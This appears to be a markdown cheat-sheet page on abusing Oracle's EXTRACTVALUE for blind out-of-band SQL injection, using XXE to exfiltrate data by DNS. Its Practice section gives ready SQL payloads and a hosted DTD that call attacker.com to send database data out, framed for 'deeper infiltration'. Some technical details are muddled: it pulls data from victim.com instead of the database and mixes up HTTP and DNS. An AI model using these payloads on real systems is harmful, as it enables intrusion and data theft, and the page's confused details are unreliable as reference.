

# EXTRACTVALUE

## Context

In the realm of offensive cybersecurity, SQL injection techniques are crucial for exploiting vulnerabilities in database-driven applications. The `EXTRACTVALUE` function plays a significant role in blind out-of-band SQL Injection attacks, specifically within Oracle databases. This technique allows attackers to exfiltrate data by generating DNS requests through XML operations. Understanding and utilizing `EXTRACTVALUE` effectively can provide invaluable insights and access to potentially sensitive information.

## Theory

### Core Idea

`EXTRACTVALUE` is an Oracle SQL function employed to extract data from XML documents using XPath expressions. When leveraged in a blind out-of-band SQL injection context, `EXTRACTVALUE` can be manipulated to trigger DNS requests, facilitating data exfiltration without returning data directly to the application's response.

The typical workflow for DNS exfiltration using `EXTRACTVALUE` involves embedding an XML external entity (XXE) in a document type definition (DTD), which is then processed by the Oracle database. When the database processes this DTD, it makes DNS requests to an attacker's server, allowing data to be exfiltrated indirectly.

### EXTRACTVALUE Mindmap



## Practice

The `EXTRACTVALUE` function can be exploited for DNS exfiltration and subsequent data extraction. Here are the practical steps to use this technique effectively:

### DNS Exfiltration using EXTRACTVALUE

1. **Identify Vulnerable Input**
   Begin by identifying an input field in an application that is susceptible to SQL injection and can process XML data. This vulnerability will allow you to manipulate the `EXTRACTVALUE` function.

2. **Command Execution**

   Use the following command to generate a DNS request:

   ```sql
   SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker.com/payload.dtd"> %ext;]>'),'/') FROM dual;
   ```

   This command triggers the Oracle database to process an external entity reference, causing a DNS request to be made to the attacker-controlled domain, `attacker.com`.

3. **DNS Server Logs**

   Check the logs on your DNS server to capture any incoming requests. These logs can reveal valuable information about the database and the vulnerable application.

### Data Extraction with EXTRACTVALUE

1. **Create DTD File on Attacker's Server**

   Host a DTD file on your server, which includes instructions for the Oracle database to retrieve specific data. The DTD file might look like:

   ```xml
   <!ENTITY % data SYSTEM "http://victim.com/data.xml">
   <!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?%data;'>">
   ```

   This setup allows the attacker to capture data from `victim.com` through a DNS query to `attacker.com`.

2. **Reference the DTD in EXTRACTVALUE**

   Execute a SQL query that references this external DTD file:

   ```sql
   SELECT EXTRACTVALUE(xmltype('<!DOCTYPE data SYSTEM "http://attacker.com/payload.dtd">'),'/') FROM dual;
   ```

   By processing this query, the database will reference the attacker’s DTD for external data navigation, completing the exfiltration.

### Tools and Result Usage

- **Tools**
  - SQL*Plus for executing the SQL commands
  - Burp Suite to identify and exploit vulnerabilities
  - Responder for analyzing incoming DNS requests

- **Result Usage**
  - Logging DNS queries for reconnaissance purposes
  - Utilizing extracted information for deeper infiltration or subsequent attacks

By mastering these techniques, offensive security professionals can effectively exploit vulnerabilities in Oracle databases and leverage `EXTRACTVALUE` for strategic data exfiltration through blind out-of-band SQL Injection.